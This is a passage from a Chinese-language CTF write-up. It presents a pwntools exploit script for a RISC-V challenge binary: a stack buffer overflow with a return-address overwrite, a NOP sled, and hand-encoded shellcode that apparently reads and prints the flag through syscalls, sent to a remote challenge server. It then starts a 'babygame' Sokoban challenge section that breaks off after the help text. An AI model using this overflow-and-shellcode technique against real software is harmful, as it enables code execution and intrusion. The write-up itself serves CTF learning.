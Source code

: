 ```
100a0:    00000073              ecall
```

最终的`exp`

```
# encoding=utf-8
from pwn import *

file_path = "./main"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    p = process(["./qemu-riscv64", "-g", "1234", file_path])
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0

else:
    p = remote('119.28.89.167', 60001)


stack = 0x4000800c70
nop = p32(0x00000013)


p.recvuntil("Input the flag: ")
payload = b"a"*0x118
payload += p64(stack)*2

shellcode = nop * 0xd0
shellcode += p32(0x676175b7) + p32(0xc665859b) + p32(0x00b13223)
shellcode += p16(0x004c) + p32(0xf9c00513) + p16(0x4601)
shellcode += p32(0x03800893) + p32(0x00000073) + p16(0x8646)
shellcode += p16(0x089d) + p32(0x00000073) + p16(0x4505) + p16(0x0885) + p32(0x00000073)

payload += shellcode

p.sendline(payload)

p.interactive()
```



## babygame

程序实现了一个类似于迷宫的操作，提供了如下的几种功能

```
h
     Sokoban
How to Play:
    Push all boxs into target place
Map:
    1)█:wall
    2)○:Target
    3)□:Box
    4)♀:Player
    5)●:Box on target
Command:
    1)h: show this message
    2)q: quit the game
    3)w: move up
```